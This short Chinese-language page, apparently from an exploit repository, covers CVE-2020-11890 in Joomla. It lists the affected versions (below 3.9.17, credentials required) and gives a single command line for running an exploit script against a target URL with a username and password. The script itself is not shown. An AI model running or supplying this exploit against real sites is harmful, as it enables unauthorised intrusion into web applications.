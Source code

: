## 影响范围

```http
需要密码
Joomla < 3.9.17
```

## 漏洞利用EXP

```bash
python CVE-2020-11890.py -url xxx.xxx.xxx.xxx -u username -p pass
```

